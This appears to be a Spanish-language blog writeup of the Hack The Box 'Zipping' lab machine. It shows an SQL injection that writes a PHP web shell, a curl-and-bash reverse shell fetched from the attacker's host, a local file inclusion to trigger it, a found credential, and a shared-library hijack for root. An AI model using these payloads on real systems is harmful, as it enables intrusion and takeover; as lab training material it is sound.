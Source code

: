 ```yaml
---
layout: single
title: HTB Zipping writeup
date: 2023-11-07
classes: wide
categories:
  - writeups
tags:
  - HTB
  - writeup
  - pentesting
---
```








<h1>Resumen || </h1><br>
<div style="text-align: justify;">
Tengo constancia de que antes esta máquina se resolvía por otro método más interesante. Este trataba de generar un `.pdf` malicioso que fuera leído por la aplicación web como un pdf, pero como un php por el servidor. Hack The Box la actualizó y, hasta ahora, no he sabido replicar esa vulnerabilidad. 

Aquí muestro la solución a noviembre de 2023:
</div>
<br><br>


# Reconocimiento 

Aplicamos un escaneo de puertos y servicios a la máquina víctima:

```shell
nmap -sV 10.10.11.229 -n -oN scan.txt -T5 -vvv
```

![](/assets/images/HTB-writeup-zipping/Pasted image 20231108144349.png)
Tenemos un servidor http en el puerto 80. 
## Web

Tras revisar la web en profundidad, encontramos que funciona con .php: 


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108144743.png)

# Penetración

## User

Introduciendo la petición del link anterior en el Repeater de BP podemos testar si podemos realizar SQLInjection a través de la aplicación PHP. 


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108151829.png)

Éxito. La aplicación acoge peticiones cuando las comenzamos con un salto de línea (`%0A`). 

Ahora vamos a generar una Reverse Shell que subiremos con una petición curl al servidor, para después ejecutarla y tomar acceso. 

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
#Aquí debemos poner nuestra IP y el puerto que más tarde abriremos con netcat. y guardarlo como 'shell.sh'
```

Abrimos un puerto 80 en la carpeta donde se encuentra la shell. 

```shell
python3 -m http.server 80
```

En otra consola, abrimos el puerto: 

```shell
nc -nlvp <port>
```

Ahora, vamos a hacer las peticiones directamente desde consola, porque así nos ahorramos el paso de urlear el comando: 

```shell
curl $'http://zipping.htb/shop/index.php?page=product&id=%0A\'%3bselect+\'<%3fphp+system(\"curl+http%3a//<tu-ip>/rev.sh|bash\")%3b%3f>\'+into+outfile+\'/var/lib/mysql/shell.php\'+%231'

curl -s $'http://zipping.htb/shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2fshell' 
```

Una vez ejecutadas ambas peticiones, en la consola del netcat debería aparecernos el acceso: 


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108152810.png)

### Conseguir una shell funcional

Como siempre en estos casos, vamos a obtener una shell 100% funcional: 

```shell
script /dev/null -c bash
tty
CTRL+Z
stty raw -echo;fg
reset
xterm
export TERM=xterm
```

Encontraremos la `user.txt`en la carpeta home del usuario, que aunque no esté definida en las variables de entorno, es accesible:
`/home/rektsu/user.txt`.



## Escalada de Privilegios

Revisamos si tenemos algún permiso de ejecución como sudo: 


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108153443.png)

Vamos a ver de qué trata el script `stock` con el siguiente comando: 

```shell
strings $(which stock)
```

Revisando el output, encontramos una credencial:


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108154111.png)

`St0ckM4nager`


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108154215.png)

Ejecutando `strace stock` e introduciendo la contraseña encontrada nos da la siguiente información: 


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108155849.png)

Es decir, el programa está llamando a un archivo llamado `/home/rektsu/.config/libcounter.so`  que no existe. Si este programa se ejecuta con permisos sudo, podemos crear ese archivo para que desde él nos lleve al usuario root. 

Vamos al directorio `/home/rektsu/.config/`

Y creamos un archivo `libcounter.c`con el siguiente contenido:

```c
#include <stdio.h>
#include <stdlib.h>

void escalation_func() {
	system("/bin/bash");
}

__attribute__((constructor))
void setup() {
	escalation_func();
}
```

Ahora lo compilamos como una librería, tal como el stock nos pedía más arriba: 

```shell
gcc -shared -o libcounter.so -fPIC libcounter.c
```

Tras esto, volvemos a ejecutar el script stock: 

```shell
sudo stock
St0ckM4nager
```


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108160859.png)

